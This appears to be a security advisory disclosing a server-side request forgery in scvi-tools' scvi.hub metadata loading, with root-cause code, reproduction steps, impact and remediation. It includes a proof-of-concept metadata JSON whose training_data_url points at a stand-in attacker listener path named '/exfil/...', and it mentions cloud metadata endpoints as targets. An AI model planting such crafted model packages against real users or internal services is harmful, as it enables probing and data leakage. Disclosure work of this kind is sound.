









# scvi-tools 1.5.0.post1 — SSRF in scvi.hub Metadata Loading via Attacker-Controlled `training_data_url`

## Summary

scverse scvi-tools 1.5.0.post1 (git commit 8755907d5122f81bba6f54e5c3aa4b06cd3f711f) is affected by a server-side request forgery (SSRF) in the `scvi.hub` metadata loading component. The `training_data_url` field of the model metadata sidecar file `_scvi_required_metadata.json` is validated by `validate_url()`, which — despite its name — performs a real outbound HTTP request (`requests.get(url)`) to any host named in the field, with no scheme, host, or IP restriction. When a victim loads a model package whose metadata contains an attacker-chosen URL, the victim's machine immediately issues an HTTP GET request to that host; the attacker observes the beacon (victim egress IP, timing, User-Agent) and can direct requests at internal or link-local services reachable from the victim host. The HTTP response does not need to succeed for the request to be sent, and the package needs no plugins, scripts, or model-execution tricks: loading the metadata alone is sufficient.

## Affected Product

| Field | Value |
|---|---|
| Vendor | scverse |
| Product | scvi-tools |
| Affected versions | 1.5.0.post1 (pyproject version) at git commit 8755907d5122f81bba6f54e5c3aa4b06cd3f711f, 2026-09-09; other versions `[unknown]` |
| Component | `scvi.hub`: `validate_url()` in `src/scvi/hub/_url.py:6-37`, reached from `HubMetadata.__post_init__` (`src/scvi/hub/_metadata.py:108-110`) and `HubModel.__init__` metadata loading (`src/scvi/hub/_model.py:87-96`) |
| Platform | OS-independent (pure Python); verified on Ubuntu 24.04 (WSL2), Python 3.12.3 |
| Vulnerability type | CWE-918: Server-Side Request Forgery |

## Root Cause

**Location:** `src/scvi/hub/_url.py:6-37` (`validate_url`), called from `src/scvi/hub/_metadata.py:108-110` (`HubMetadata.__post_init__`)

`validate_url()` is documented and used as a URL validator, but after a purely syntactic regex check it performs the request itself:

```python
    if re.match(regex, url) is None:
        if error_format:
            raise ValueError(f"Invalid URL format: {url}")
        return False

    try:
        response = requests.get(url)
        valid = response.status_code == 200
    except requests.ConnectionError:
        valid = False
```

The regex accepts any http/https/ftp URL pointing at any domain, `localhost`, or any dotted-quad IP, optionally with a port and path. There is no scheme allowlist, no DNS/IP-based blocking of loopback, private (RFC 1918), or link-local (e.g. `169.254.169.254`) ranges, and no size/timeout control. The result of `requests.get()` is reduced to a boolean that the callers effectively discard (`HubMetadata.__post_init__` passes only `error_format=True`), so the request is a pure side effect: whether it succeeds or fails, it has already been issued.

The attacker-controlled path is the ordinary model metadata sidecar that ships with every scvi-hub model package:

- `HubModel.__init__` (`src/scvi/hub/_model.py:87-96`) reads `{local_dir}/_scvi_required_metadata.json`, `json.loads()` it, and constructs `HubMetadata(**content_dict)`.
- `HubMetadata.__post_init__` (`src/scvi/hub/_metadata.py:108-110`) calls `validate_url(self.training_data_url, error_format=True)` whenever `training_data_url` is not `None`.

`training_data_url` is a plain JSON string field in the model release package (the same repo that contains `model.pt`, `adata.h5ad` and `README.md`; the metadata file is also uploaded verbatim to Hugging Face Hub by `push_to_huggingface_hub` and downloaded by `pull_from_huggingface_hub`, whose return path constructs `HubModel(snapshot_folder, ...)` and therefore triggers the identical code). An attacker who publishes a model repo (or otherwise distributes a model directory) fully controls this string. Constructing the `HubModel` object is enough to fire the request; the model itself is lazy-loaded and never executed.

The same defect also exists in `HubModelCardHelper.__post_init__` (`src/scvi/hub/_metadata.py:188-194`), which validates `training_data_url` and `training_code_url` the same way.

## Proof of Concept

### Prerequisites

- Python ≥ 3.12 with `scvi-tools` built from the pinned commit (`pip install './scvi-tools-8755907[hub]'`); the victim only needs to construct a `HubModel` from an attacker-supplied model directory (the same code path runs after `HubModel.pull_from_huggingface_hub(repo_name)` downloads a malicious repo).
- The PoC model package contains only ordinary files: `model.pt`, `adata.h5ad`, `README.md`, and `_scvi_required_metadata.json`. It contains no network plugins, no scripts, and no pickled code paths are exercised; the negative control is byte-identical except for the `training_data_url` string.

### Steps to Reproduce

1. Build the malicious and control model packages with `make_poc.py` (attached; SHA-256 in `poc/SHA256SUMS.txt`): both packages get the same `model.pt`, `adata.h5ad` and `README.md`; the malicious metadata sets `training_data_url` to an attacker-chosen HTTP URL, the control keeps the upstream default `null`.



This screenshot shows the reproduction environment: `scvi-tools 1.5.0.post1` (built from the pinned commit 8755907) and `requests 2.34.2` in a Python 3.12.3 venv.



The generator prints both packages; only the `training_data_url` string differs.

2. Inspect the package contents and the crafted metadata sidecar.



`model-malicious/` holds `README.md`, `_scvi_required_metadata.json`, `adata.h5ad`, `model.pt` — a normal hub package layout with no plugins or scripts.


The metadata JSON is the only thing an attacker has to change; `training_data_url` points at `http://127.0.0.1:8081/exfil/scvi-hub-metadata?victim=unpublished-scrnaseq` (the listener standing in for the attacker's server).

3. Start the attacker's HTTP listener on `127.0.0.1:8081` (attached `listener.py`), which logs every incoming request with its path and User-Agent.



4. Act as the victim: construct `HubModel("model-malicious")` — the exact operation a user performs after downloading a hub model (`python trigger.py model-malicious`).



Construction succeeds silently; no warning is shown to the victim.

5. On the attacker's side, the beacon has already arrived.



The listener logged `GET /exfil/scvi-hub-metadata?victim=unpublished-scrnaseq UA=python-requests/2.34.2` — the metadata string drove an outbound HTTP request to the attacker-chosen host, carrying the attacker's chosen path and leaking the victim's egress identity.

6. Negative control: construct `HubModel("model-control")`, whose metadata keeps `training_data_url: null`.



7. The listener log is unchanged: no request was issued for the control package.



Only the single beacon from step 5 is present — the `training_data_url` string is the sole driver of the request.

8. Package hashes: the shared files (`adata.h5ad`, `model.pt`, `README.md`) are byte-identical between the two packages; only the metadata JSON hashes differ.



### Expected vs Actual

- Expected: a URL field in model metadata is validated syntactically (or at minimum against an allowlist) without any network activity while a model package is being loaded.
- Actual: loading the metadata performs a live HTTP GET to the exact host, port and path named in `training_data_url`; the request is issued even if the target refuses, times out, or returns a non-200 status.

### Sanitized PoC input

```json
{"scvi_version": "1.5.0.post1", "anndata_version": "0.13.4", "model_cls_name": "SCVI", "training_data_url": "http://127.0.0.1:8081/exfil/scvi-hub-metadata?victim=unpublished-scrnaseq", "model_parent_module": "scvi.model"}
```

The reproduction uses `127.0.0.1:8081` as the attacker host (a local logging listener). In a real attack this field would name any attacker-controlled or internal host, e.g. a cloud metadata service.

## Impact

- Confidentiality: Low — the attacker's server receives a beacon that discloses the victim's egress IP address, request timing, and `python-requests` User-Agent; the forced GET can also hit internal-only or link-local services (e.g. `169.254.169.254`) and any reached server observes the probe, although response bodies are not returned to the attacker.
- Integrity: Low — the request is a blind GET whose response is discarded, but GET requests against internal services that perform state changes on GET (admin endpoints, webhooks, IoT-style APIs) can cause limited, attacker-influenced state transitions; this is a conservative assumption noted per CVSS guidance.
- Availability: None — the response is ignored; repeated loads could be used to generate request volume, but no crash or resource exhaustion was observed.
- Scope: the defect is confined to the victim process issuing outbound requests; no code from the package is executed (`model.pt` is lazy-loaded and never touched in this path).

## Remediation

- Remove the `requests.get()` from `validate_url()` (`src/scvi/hub/_url.py:29`): a validator must not perform network I/O. Regex-validate the shape only, and treat reachability checks — if they are needed at all — as an explicit, separate, user-initiated step.
- If a reachability check is retained: restrict the scheme to `https`, resolve the hostname first and refuse loopback, RFC 1918, link-local (169.254.0.0/16) and multicast ranges, set a short timeout, and never run it as a hidden side effect of dataclass construction (`HubMetadata.__post_init__`).
- Workaround until patched: load model packages only from trusted sources, or pre-clear `training_data_url` in `_scvi_required_metadata.json` (set it to `null`) before constructing `HubModel`.

## References

- Source repository: https://github.com/scverse/scvi-tools
- Affected commit: https://github.com/scverse/scvi-tools/commit/8755907d5122f81bba6f54e5c3aa4b06cd3f711f
- Vulnerable file: https://github.com/scverse/scvi-tools/blob/8755907d5122f81bba6f54e5c3aa4b06cd3f711f/src/scvi/hub/_url.py
- Upstream report: `[pending publication]`
- CWE: https://cwe.mitre.org/data/definitions/918.html
- Vendor advisory: `[none]`
